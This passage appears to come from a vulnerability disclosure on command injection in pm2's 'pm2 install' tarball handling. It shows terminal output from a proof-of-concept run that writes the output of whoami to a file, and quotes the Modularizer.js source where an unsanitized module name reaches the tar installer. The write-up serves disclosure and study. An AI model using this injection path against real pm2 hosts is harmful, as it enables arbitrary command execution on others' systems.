 And here's the result of its execution - the file `whoamreallyare` is created and result of `whoami` command execution is put into:

```
bl4de:~/playground/Node $ ll
total 224
drwxr-xr-x  237 bl4de  staff    7584 Jun 26 19:52 node_modules
-rw-r--r--    1 bl4de  staff  106709 Jun 26 19:52 package-lock.json
lrwxr-xr-x    1 bl4de  staff      26 Jun 26 20:18 pm2 -> ./node_modules/pm2/bin/pm2
-rw-r--r--@   1 bl4de  staff     447 Jun 26 20:23 pm2_exploit.js
bl4de:~/playground/Node $ node pm2_exploit.js

/Users/bl4de/playground/Node/pm2_exploit.js:20
            throw err
            ^
Error: No script path - aborting
tar: Error opening archive: Failed to open 'foo.tar.gz'
bl4de:~/playground/Node $ ll
total 240
-rwxr-xr-x    1 bl4de  staff       7 Jun 26 20:23 here
drwxr-xr-x  237 bl4de  staff    7584 Jun 26 19:52 node_modules
-rw-r--r--    1 bl4de  staff  106709 Jun 26 19:52 package-lock.json
lrwxr-xr-x    1 bl4de  staff      26 Jun 26 20:18 pm2 -> ./node_modules/pm2/bin/pm2
-rw-r--r--@   1 bl4de  staff     447 Jun 26 20:23 pm2_exploit.js
-rw-r--r--    1 bl4de  staff       6 Jun 26 20:23 whoamreallyare
bl4de:~/playground/Node $ cat whoamreallyare
bl4de
bl4de:~/playground/Node $

```

## Vulnerability Description

The execution chain starts in `lib/API/Modules/Modularizer.js` file, in line 22, which is responsible for execution of `pm2 install` command (I've marked my comments with `////` at the beginning):

```javascript
/**
 * PM2 Module System.
 */
Modularizer.install = function (CLI, module_name, opts, cb) {
  if (typeof(opts) == 'function') {
    cb = opts;
    opts = {};
  }

  if (LOCAL.INTERNAL_MODULES.hasOwnProperty(module_name)) {
    Common.logMod(`Adding dependency ${module_name} to PM2 Runtime`);
    var currentModule = LOCAL.INTERNAL_MODULES[module_name];
    if (currentModule && currentModule.hasOwnProperty('dependencies')) {
      LOCAL.installMultipleModules(currentModule.dependencies, cb);
    } else {
      LOCAL.install(currentModule, cb);
    }
  }
  else if (module_name == '.') {
    Common.logMod(`Installing local NPM module`);
    return NPM.localStart(CLI, opts, cb)
  }
  else if (opts.tarball || module_name.indexOf('.tar.gz') > -1) {   //// vulnerable code
    Common.logMod(`Installing TAR module`);
    TAR.install(CLI, module_name, opts, cb)  //// not sanitized module_name is used as an argument here 
  }
  else {
```